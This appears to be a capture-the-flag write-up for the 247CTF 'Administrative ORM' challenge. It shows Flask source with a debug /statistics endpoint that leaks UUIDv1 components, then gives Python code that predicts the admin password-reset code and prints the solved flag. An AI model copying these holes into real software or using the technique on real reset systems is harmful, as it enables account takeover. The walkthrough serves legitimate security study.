


## Administrative ORM  



The challenge webpage has a `/get_flag` endpoint, which requires us to supply the correct admin password to get the flag.  

There is also an `/update_password` endpoint, but we need to supply the correct reset code to use it, and the code is generated using MySQL's `uuid()`.  

```python
import pymysql.cursors
import pymysql, os, bcrypt, debug
from flask import Flask, request
from secret import flag, secret_key, sql_user, sql_password, sql_database, sql_host

class ORM():
    def __init__(self):
        self.connection = pymysql.connect(host=sql_host, user=sql_user, password=sql_password, db=sql_database, cursorclass=pymysql.cursors.DictCursor)

    def update(self, sql, parameters):
        with self.connection.cursor() as cursor:
          cursor.execute(sql, parameters)
          self.connection.commit()

    def query(self, sql, parameters):
        with self.connection.cursor() as cursor:
          cursor.execute(sql, parameters)
          result = cursor.fetchone()
        return result

    def get_by_name(self, user):
        return self.query('select * from users where username=%s', user)

    def get_by_reset_code(self, reset_code):
        return self.query('select * from users where reset_code=%s', reset_code)

    def set_password(self, user, password):
        password_hash = bcrypt.hashpw(password, bcrypt.gensalt())
        self.update('update users set password=%s where username=%s', (password_hash, user))

    def set_reset_code(self, user):
        self.update('update users set reset_code=uuid() where username=%s', user)

app = Flask(__name__)
app.config['DEBUG'] = False
app.config['SECRET_KEY'] = secret_key
app.config['USER'] = 'admin'

@app.route("/get_flag")
def get_flag():
    user_row = app.config['ORM'].get_by_name(app.config['USER'])
    if bcrypt.checkpw(request.args.get('password','').encode('utf8'), user_row['password'].encode('utf8')):
        return flag
    return "Invalid password for %s!" % app.config['USER']

@app.route("/update_password")
def update_password():
    user_row = app.config['ORM'].get_by_reset_code(request.args.get('reset_code',''))
    if user_row:
        app.config['ORM'].set_password(app.config['USER'], request.args.get('password','').encode('utf8'))
        return "Password reset for %s!" % app.config['USER']
    app.config['ORM'].set_reset_code(app.config['USER'])
    return "Invalid reset code for %s!" % app.config['USER']

@app.route("/statistics") # TODO: remove statistics
def statistics():
    return debug.statistics()

@app.route('/')
def source():
    return "
%s
" % open(__file__).read()

@app.before_first_request
def before_first():
    app.config['ORM'] = ORM()
    app.config['ORM'].set_password(app.config['USER'], os.urandom(32).hex())

@app.errorhandler(Exception)
def error(error):
    return "Something went wrong!"

if __name__ == "__main__":
    app.run()
```

The main vulnerability lies in the `/statistics` endpoint, which displays database statistics.  

MySQL `uuid()` uses UUDv1, which is depends on the MAC address, timestamp and clock sequence of the device. The `/statistics` endpoint conveniently leaks all three in the `clock_sequence`, `last_reset` and `HWaddr` fields.  



To be able to retrieve the correct UUID, we can visit `/update_password` any arguments, which will cause it to force reset the reset code.  

After that, we can retrieve the necessary components from `/statistics` and reconstruct the UUID generated at that reset.  

```python
def get_code(node, clock_seq, last_reset_str):
    UUID_EPOCH_OFFSET = 12219292800
    
    date_part, frac_part = last_reset_str.split(".")
    frac_part = frac_part.strip().ljust(9, "0")
    nanoseconds = int(frac_part[:9])

    dt = datetime.strptime(date_part, "%Y-%m-%d %H:%M:%S")
    dt = dt.replace(tzinfo=timezone.utc)
    unix_seconds = int(dt.timestamp())

    base_ns = (unix_seconds * 10**9) + nanoseconds

    uuid_ticks = (base_ns // 100) + (UUID_EPOCH_OFFSET * 10**7)

    time_low = uuid_ticks & 0xffffffff
    time_mid = (uuid_ticks >> 32) & 0xffff
    time_hi_version = (uuid_ticks >> 48) & 0x0fff
    time_hi_version |= (1 << 12)

    clock_seq_low = clock_seq & 0xff
    clock_seq_hi_variant = (clock_seq >> 8) & 0x3f
    clock_seq_hi_variant |= 0x80

    return UUID(fields=(
        time_low,
        time_mid,
        time_hi_version,
        clock_seq_hi_variant,
        clock_seq_low,
        node
    ))
```

We can then reset the password to a known password and visit `/get_flag` with the new password to retrieve the flag.  

Flag: `247CTF{aff83b946e64e299a08f50b8ba0161ff}`